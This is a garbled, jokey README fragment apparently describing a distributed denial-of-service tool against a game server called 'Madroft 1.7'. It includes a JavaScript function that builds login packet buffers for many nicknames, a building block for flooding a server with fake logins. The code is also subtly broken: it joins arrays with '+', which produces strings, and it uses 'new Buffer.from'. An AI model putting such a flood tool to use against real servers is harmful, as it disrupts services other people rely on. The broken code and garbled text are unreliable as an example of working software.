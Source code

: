 # Madroft
Hai-pafoomansu DDoC (Distributed Denial of santa Claus) debaisu against Madroft 1.7.

```js
loginBufs = (nicks, isForge, version) =>
  nicks.map((n) => 
    unescape(encodeURIComponent(n))
  ).map((u8) => 
    [0x06, 0x00, version, 0x00] +
    (isForge
      ? [0x67, 0x36]
      : [0x63, 0xdd]) +
    [0x02, u8.length + 2, 0x00, u8.length] +
    Array.prototype.map.call(u8, (x) => x.charCodeAt(0))
  ).map((ar) =>
    new Buffer.from(ar)
  )
```
